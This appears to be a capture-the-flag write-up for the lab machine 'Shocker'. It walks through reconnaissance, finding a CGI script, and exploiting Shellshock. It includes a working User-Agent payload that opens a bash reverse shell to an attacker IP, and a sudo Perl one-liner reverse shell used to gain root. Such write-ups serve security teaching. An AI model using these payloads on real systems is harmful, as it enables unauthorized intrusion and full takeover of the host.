# Shocker

# Recon

## Machine IP Setup

```bash
export IP=10.10.10.56
```

## Initial Scan

First, we can conduct the initial nmap scans using autorecon:

```bash
autorecon $IP -v
```

The immediate results we obtain are as follows:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled.png)

The Ports that are open are:

- port 80: Apache httpd 2.4.18 (Ubuntu)
- port 2222: OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

## Recon Results

The compiled results we obtain are as follows:

- port 80: Apache httpd 2.4.18 (Ubuntu)
- port 2222: OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

# Enumeration (Service Version Check)

Firstly, as port 80 is open with httpd, let us visit the website:

![Shocker%2036812a231f5143eeb353d09365dff051/Untitled%201.png](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%201.png)

![Shocker%2036812a231f5143eeb353d09365dff051/Untitled%202.png](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%202.png)

Seeing that it is a website with only an image and no external link, we can try to take a look at the website using gobuster. 

```powershell
gobuster dir -t 10 -w /usr/share/wordlists/dirb/common.txt -u $IP
```

This will give us the following results

![Shocker%2036812a231f5143eeb353d09365dff051/Untitled%203.png](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%203.png)

One of the interesting finds is the directory cgi-bin, a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. To look for these scripts, we can then run gobuster on it for the following extensions: cgi, sh, pl and py:

```powershell
gobuster dir -t 10 -w /usr/share/wordlists/dirb/common.txt -u $IP/cgi-bin -x cgi,sh,pl,py
```

And we obtain the following results:

![Shocker%2036812a231f5143eeb353d09365dff051/Untitled%204.png](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%204.png)

Here, we have found user.sh, which seems interesting, since we might be looking at the shellshock vulnerability, where we can execute execute bash commands via means such as the web server and cgi executables.

First, let us try to take a look at the script via the url [http://10.10.10.56/cgi-bin/user.sh](http://10.10.10.56/cgi-bin/user.sh), using Burp to intercept the request.

The website seems to only contain the following text:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%205.png)

Examining the HTTP Request and Response with Burp, we see:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%206.png)

The first line of text we saw seems to have been a header that was not written properly and ended up in the body of the text.

The rest of the text seems to be a comment, followed by the output of the command uptime:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%207.png)

Therefore, we can assume that the webpage seems to be generated user.sh, which involves running the uptime command. From here, we can attempt to exploit it via shellshock.

# Initial Foothold

Looking up the shellshock reverse shell, we see the following payload:

```python
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.17.90/4444 0>&1
```

The explanation for this payload, apart from the magic string that triggers the shellshock vulnerability, is as follows:

- “/bin/bash -i”:
    - The option I stands for interactive, meaning that the shell must be interactive (must provide a shell prompt).
- “>& /dev/tcp/10.10.17.90/4444”:
    - Redirecting Standard Output and Standard Error
        - semantically equivalent to >/dev/tcp/10.10.17.90/4444 2>&1
- “0>&1”:
    - File descriptor 0 represents the standard input device (stdin). This causes the stdin to be redirected to stdout, which is the TCP connection.

Using Burp Repeater, we can change the User-Agent header of a requiest to /cgi-bin/user.sh as follows:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%208.png)

Before we send the request, we can set up a netcat listener using:

```powershell
nc -nvlp 4444
```

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%209.png)

And when we send the request via repeater, we should receive no response if we succeeded.

Looking at the listener, we see that we have shell:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%2010.png)

# User Flag

To obtain the user flag, we simply cd to the home folder and use find as follows:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%2011.png)

With this, we have the user flag.

# Root Flag

To escalate our privileges to root, we can first look at what commands we can run as root via the current the user using the command:

```bash
sudo -l
```

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%2012.png)

This result shows that we can run perl as root with no authentication. 

As such, we can simply set up a separate listener on a different port:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%2013.png)

And we can run the perl code for a reverse shell as sudo on the target machine:

```powershell
sudo perl -e 'use Socket;$i="10.10.17.90";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

From there, we can see that we have root shell on the new listener:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%2014.png)

All that is left to do is find the root flag via the same cd to home and using find and we have the root flag as well:

![Untitled](Shocker%2036812a231f5143eeb353d09365dff051/Untitled%2015.png)

# Learning Points (Additional Points)

- There is a difference between ending a directory with or without a "/" when it comes to certain webservers, so do not blindly trust the results of ferox or gobuster
- cgi-bin + shellshock + User-Agent header allows RCE using magic string